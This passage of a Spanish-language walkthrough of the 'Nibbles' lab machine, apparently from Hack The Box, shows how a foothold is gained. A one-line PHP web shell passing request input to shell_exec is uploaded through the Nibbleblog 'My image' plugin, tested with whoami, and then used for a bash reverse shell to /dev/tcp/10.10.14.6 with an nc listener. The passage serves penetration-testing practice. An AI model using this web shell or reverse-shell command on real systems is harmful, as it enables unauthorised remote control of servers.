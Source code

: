 Ahora que tenemos acceso a las opciones del servidor, vamos a acceder a la carpeta `plugins` y configuramos el plugin `My image`.

<p style="text-align: center;">  
<img src="/assets/images/nibbles/08-page6.png">      
</p>

Vamos a proceder con la intrusión intentando subir una serie de archivos que permitan obtener una shell reversa e interactiva en nuestra máquina, para esto accedemos a nuestra carpeta `exploit`.

```bash
cd ../exploit
```

## INTRUSION WEBSHELL PHP + REVERSE SHELL BASH

Creamos un archivo `webshell.php` y generamos un código para lograr una shell a nivel web en el servidor afectado.

```bash
vim webshell.php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Subimos el archivo en el plugin `My image` y hacemos una prueba ejecutando un comando de reconocimiento.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```

<p style="text-align: center;">  
<img src="/assets/images/nibbles/09-page7.png">        
</p>

Obteniendo una prueba exitosa, procedemos a activar un listener.

```bash
nc -lnvp 4564
```

Generamos una reverse shell en bash con la siguiente petición web.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/4564 0>%261"
```

<p style="text-align: center;">
<img src="/assets/images/nibbles/10-page8.png"> 
</p>

## INTRUSION REVERSE SHELL PHP

Otra manera de realizar una intrusión es directamente con una reverse shell en `php`, para esto vamos a localizar y copiar una reverse shell en los recursos de nuestra máquina.
